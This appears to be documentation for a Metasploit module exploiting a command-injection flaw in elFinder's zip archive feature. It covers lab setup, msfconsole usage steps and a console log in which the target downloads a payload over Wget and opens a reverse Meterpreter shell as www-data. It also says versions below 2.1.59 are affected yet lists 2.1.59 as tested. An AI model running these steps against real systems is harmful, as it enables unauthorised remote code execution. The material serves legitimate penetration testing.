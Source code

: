 ## Vulnerable Application

elFinder versions below 2.1.59 are vulnerable to a command injection
vulnerability via its archive functionality.

When creating a new zip archive, the `name` parameter is sanitized
with the `escapeshellarg()` php function and then passed to the
`zip` utility. Despite the sanitization, supplying the `-TmTT`
argument as part of the `name` parameter is still permitted and
enables the execution of arbitrary commands as the `www-data` user.

Tested on elFinder versions `2.1.57`, `2.1.58`, and `2.1.59`.

### Installation Steps

1. Set up a php server
2. Download a vulnerable version of the elFinder [software](https://github.com/Studio-42/elFinder/archive/2.1.58.zip)
3. Rename the minimal connector file: `mv /php/connector.minimal.php-dist /php/connector.minimal.php`
4. Access the software at `http://<host>/elfinder.html`

Additional installation methods can be found [here](https://github.com/Studio-42/elFinder#installation).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/elfinder_archive_cmd_injection`
4. Do: `set RHOST <ip>`
5. Do: `set LHOST <ip>`
6. Do: `run`
7. You should get a meterpreter session.

## Scenarios

### elFinder `v2.1.58` on Ubuntu 20.04.1

```
msf > use exploit/linux/http/elfinder_archive_cmd_injection
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/elfinder_archive_cmd_injection) > set rhost 192.168.140.128
rhost => 192.168.140.128
msf exploit(linux/http/elfinder_archive_cmd_injection) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(linux/http/elfinder_archive_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.58
[*] Uploading file LojGHIOkAW.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive fMuuXCkA.zip
[+] Archive was successfully created!
[*] Using URL: http://0.0.0.0:8080/OR3Kz5kxLZp
[*] Local IP: http://192.168.1.199:8080/OR3Kz5kxLZp
[*] Client 192.168.140.128 (Wget/1.20.3 (linux-gnu)) requested /OR3Kz5kxLZp
[*] Sending payload to 192.168.140.128 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  62.50% done (75/120 bytes)
[*] Command Stager progress -  89.17% done (107/120 bytes)
[*] Sending stage (984904 bytes) to 192.168.140.128
[+] Deleted LojGHIOkAW.txt
[+] Deleted fMuuXCkA.zip
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.128:39822) at 2021-09-09 16:10:06 -0500
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data @ ubuntu (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 192.168.140.128
OS           : Ubuntu 20.04 (Linux 5.11.0-27-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
